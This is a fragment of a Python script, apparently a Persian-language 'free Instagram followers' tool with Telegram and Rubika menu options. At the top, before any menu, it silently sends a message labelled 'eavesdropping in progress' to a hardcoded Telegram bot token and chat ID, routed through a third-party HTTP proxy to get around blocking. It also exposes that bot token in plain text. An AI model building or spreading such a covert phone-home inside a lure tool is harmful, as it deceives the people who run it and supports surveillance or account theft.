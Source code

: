 # snod
url3 = 'https://api.telegram.org/bot5060011146:AAEQ9pgGU9Cw6FTh2kFLYxjAfZdn7J8B4gg/sendMessage?chat_id=2108923270=&text=' + 'در حال شنود'


# bypass Telegram
pyload = {'UrlBox': url3,
          'AgentList': 'Google Chrome',
          'VersionsList': 'HTTP/1.1',
          'MethodList': 'GET'
          }

https = requests.post(
    'https://www.httpdebugger.com/Tools/ViewHttpHeaders.aspx', data=pyload)


# logo help

def help():

    print(Fore.RED+' >>> help script ')

    print(Fore.GREEN+' is help script Enter [ help ] ')
    print(Fore.GREEN+' Enter for [99] and telegram run ')
    print(Fore.GREEN+' Enter for [98] and instagram run ')
    print(Fore.GREEN+' Enter for [97] and rubika run ')
    print('\n')
# user input


# folower insta

def insta():

    # folower instagram

    print(Fore.GREEN+' ___________________________________________________________')
    print(Fore.GREEN+'|                                                          |')
    print(Fore.GREEN+'|     version 2.0                                          |')
    print(Fore.GREEN+'|                                                          |')
    print(Fore.GREEN+'|         follower free instagram                          |')
    print(Fore.GREEN+'|    @miny_hack                                            |')
    print(Fore.GREEN+'|     aparat.com/miny_345                                  |')
    print(Fore.GREEN+'|                                                          |')
    print(Fore.GREEN+'|      page instagram follow kamiar167                     |')
    print(Fore.GREEN+'|                                                          |')
    print(Fore.GREEN+'|                                                          |')
    print(Fore.GREEN+' ___________________________________________________________')
